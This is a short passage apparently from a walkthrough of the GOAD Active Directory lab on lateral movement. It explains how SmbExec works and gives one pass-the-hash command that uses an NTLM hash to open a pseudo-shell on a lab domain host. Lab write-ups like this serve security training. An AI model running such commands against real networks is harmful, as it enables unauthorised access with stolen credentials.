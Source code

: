 ![lateral_wmiexec_wireshark.png](/assets/blog/GOAD/lateral_wmiexec_wireshark.png)

#### SmbExec

SmbExec (pseudo-shell):
  - Don't upload executable
  - Create a service on every request
  - Get the command results on a share or on a server controled by the attacker (with -mode SERVER)
  - Protocol SMB

```bash
smbexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

![lateral_smbexec.png](/assets/blog/GOAD/lateral_smbexec.png)
